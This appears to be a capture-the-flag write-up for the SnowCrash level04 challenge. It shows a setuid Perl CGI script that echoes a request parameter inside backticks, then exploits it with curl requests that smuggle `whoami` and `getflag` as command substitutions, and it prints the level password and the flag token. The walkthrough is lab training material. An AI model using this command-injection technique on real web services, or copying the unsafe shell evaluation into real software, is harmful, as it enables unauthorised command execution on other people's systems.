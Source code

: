 ## level04
```
level03@SnowCrash:~$ su level04 
Password: qi0maab88jeaj46qoumi7maus
level04@SnowCrash:~$
```
```
level04@SnowCrash:~$ ls -al
total 16
dr-xr-x---+ 1 level04 level04  120 Mar  5  2016 .
d--x--x--x  1 root    users    340 Aug 30  2015 ..
-r-x------  1 level04 level04  220 Apr  3  2012 .bash_logout
-r-x------  1 level04 level04 3518 Aug 30  2015 .bashrc
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
-r-x------  1 level04 level04  675 Apr  3  2012 .profile
```
`level04.pl` this is Perl script in home directory.
```
level04@SnowCrash:~$ cat level04.pl 
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
The script indicates that it is something running on `localhost:4747`. Verbose port scan for listening daemons, without sending any data to them.  
`nc -zv` allows to check connection to 4747 without sending any data and verbose mode
```
level04@SnowCrash:~$ nc -zv localhost 4747
Connection to localhost 4747 port [tcp/*] succeeded!
```
Script expects a value passed in `x` parameter which is passed to `x()` function. Then, while printing it, backticks are used to evaluate argument by echoing it.  
So trying to pass `whoami` command substitution reveals that is evaluated and executed as `flag04`
```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/usr/bin/whoami\`"
flag04
```
All that remains to be done is to execute `getflag` binary.
```
level04@SnowCrash:~$ curl localhost:4747/?x="\`/bin/getflag\`"
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```
